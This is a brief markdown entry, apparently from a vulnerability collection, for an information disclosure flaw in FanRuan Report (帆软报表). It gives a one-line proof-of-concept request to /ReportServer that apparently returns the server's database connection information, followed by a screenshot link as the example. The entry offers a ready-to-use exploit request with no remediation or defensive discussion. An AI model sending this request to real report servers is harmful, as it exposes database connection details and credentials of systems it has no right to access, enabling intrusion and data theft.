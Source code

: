 ### 帆软报表 信息泄露漏洞
poc:
```
/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```
example:

![image](https://user-images.githubusercontent.com/55024146/118276541-5a9d1600-b4fa-11eb-8c83-795b9a8b32ea.png)

